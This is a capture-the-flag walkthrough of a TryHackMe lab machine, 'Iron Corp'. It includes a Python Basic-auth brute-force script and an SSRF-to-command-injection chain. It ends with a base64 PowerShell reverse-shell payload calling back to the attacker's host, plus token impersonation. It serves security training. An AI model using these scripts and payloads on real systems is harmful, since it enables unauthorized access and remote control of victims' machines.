This box is rated hard difficulty on THM. It involves us brute forcing an admin login on a subdomain, grabbing a shell via SSRF in a query search function, and impersonating another account with an enabled Windows privilege.

_Can you get access to Iron Corp’s system?_

## Scanning & Enumeration
The only domain in scope is ironcorp.me, so that’s where I’ll focus on. First things first, I run an Nmap scan on the given IP to find running services. I also add ironcorp.me to my /etc/hosts file as we get redirected.

```
$ sudo nmap -p53,135,3389,8080,11025,49668,49670 -sCV -Pn 10.65.148.146 -oN fullscan.tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-10 18:23 CST
Nmap scan report for ironcorp.me (10.65.148.146)
Host is up (0.048s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-8VMBKF3G815
| Not valid before: 2026-01-10T00:16:11
|_Not valid after:  2026-07-12T00:16:11
|_ssl-date: 2026-01-11T00:24:54+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: WIN-8VMBKF3G815
|   NetBIOS_Domain_Name: WIN-8VMBKF3G815
|   NetBIOS_Computer_Name: WIN-8VMBKF3G815
|   DNS_Domain_Name: WIN-8VMBKF3G815
|   DNS_Computer_Name: WIN-8VMBKF3G815
|   Product_Version: 10.0.14393
|_  System_Time: 2026-01-11T00:24:46+00:00
8080/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Dashtreme Admin - Free Dashboard for Bootstrap 4 by Codervent
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Microsoft-IIS/10.0
11025/tcp open  http          Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.4.4)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.4.4
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Coming Soon - Start Bootstrap Theme
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.35 seconds
```

We get quite a bit back from it:
- DNS on port 53
- RDP on port 3389
- HTTP on ports 8080 and 11025
- RPC on ports 135, 49668, and 49670

Looks like a windows box without Active Directory. I’ll start with a dig on the DNS server and then check out the webpages.



There are two subdomains we can look at so I add those to my /etc/hosts file as well. The landing page on port 8080 is a static dashboard for an example account with tabs to other components. We have a login/registration page but these have no functionality whatsoever.



The webpage on port 11025 is under construction and also has no functioning links/tabs.



I tried to exploit the avatar image upload and find known vulnerabilities for Dashtreme but got nothing in return. Both admin.ironcorp.me and internal.ironcorp.me were the same as the original page on port 8080.

Checking those two subdomains on port 11025 showed that we are forbidden with the internal one but are prompted with a login panel with the admin one.





## Brute Forcing
Capturing this request shows that we send a GET request with a base64 encoded Authorization header containing our user and pass. This is relatively easy to brute force so I make a custom script to get it running.

This is what I ended up using:

```
import base64
import requests
import sys

TARGET = "http://admin.ironcorp.me:11025/"
USERNAME = "admin"

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} <wordlist>")
    sys.exit(1)

wordlist = sys.argv[1]

session = requests.Session()
session.headers.update({
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64)",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Connection": "keep-alive",
})

with open(wordlist, "r", errors="ignore") as f:
    for password in f:
        password = password.strip()

        creds = f"{USERNAME}:{password}"
        b64_creds = base64.b64encode(creds.encode()).decode()

        headers = {
            "Authorization": f"Basic {b64_creds}"
        }

        r = session.get(TARGET, headers=headers)

        if r.status_code == 200 and "Unauthorized" not in r.text:
            print(f"[+] Valid credentials found: {USERNAME}:{password}")
            break
        else:
            print(f"[-] Tried {USERNAME}:{password}")
```

This returns a valid password and we can login to the site, finding a query search bar.



I fun a gobuster dir search supplying the authorization header with our encoded creds and find an /images directory. Inside is a .gif with perhaps a hint at an SSRF vulnerability.



Capturing a request to the ultimate search bar query shows that the site is ran on PHP. Another thing of note is that our query is reflected in the URL as a parameter.



I checked a 404 page to potentially find more info and gathered a few things. We get the Apache, OpenSSL, and PHP versions, however these aren’t vulnerable. This page also discloses the ‘webmaster’ email and gives us the structure for it.



## SSRF
Back to the Burp Suite request, I test for basic command injections and eventually find that we can indeed exploit a SSRF vulnerability by supplying the target URL along with a path to a file we want.



I used the landing page and got a 401 Authorization required as we didn’t give it the auth header. I try again with the URL pointing towards my attacking machine and confirms we have RCE on the system.



I make a request to the internal.ironcorp.me domain and find a line with a link which uses a name parameter to get things



We can also confirm that this allows for RCE by piping it to a command, here I do whoami to find out what we are running as.



Now let’s use this to grab a shell on the box via this method.

## Initial Foothold
Since we know that the system is Windows I use a base64 encoded powershell reverse shell from revshells. Next, we can copy and paste that payload after the pipe and double URL encode it.

My final payload in Burp Suite looked something like:

```
/?r=http%3A%2F%2Finternal.ironcorp.me%3A11025%2Fname.php%3Fname%3D|powershell%2b-ep%2bbypass%2b-e%2bJABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEAMgA4AC4AMQA3ADAAIgAsADkAMAAwADEAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

Let that run and we finally get a shell on the box as nt authority\system .



The user flag is under C:\users\administrator\desktop



## Privilege Escalation
I look around the C:\Users dir and find accounts for Admin, administrator, and SuperAdmin. I’m unable to list contents for Admin or SuperAdmin but I try to read root.txt anyways for an easy win as I know the file name. This grants us the root flag under C:\Users\SuperAdmin\Desktop .



That completes the box, however if we couldn’t read files directly, there is still another way to go about getting the last flag. Running whoami /all lists our privileges and I find that we have access to SeImpersonatePrivilege under our current shell.



Next, we can use Metasploit to grab a proper shell and use list_tokens -u to list the tokens on the system. Finally, we can use the impersonate_token command to read SuperAdmin’s files.

```
impersonate_token "WIN-...\SuperAdmin"
```

This box was a very fun challenge for me, I think the hardest part was debugging the reverse shell. I hope this was helpful to anyone following along or stuck and happy hacking!
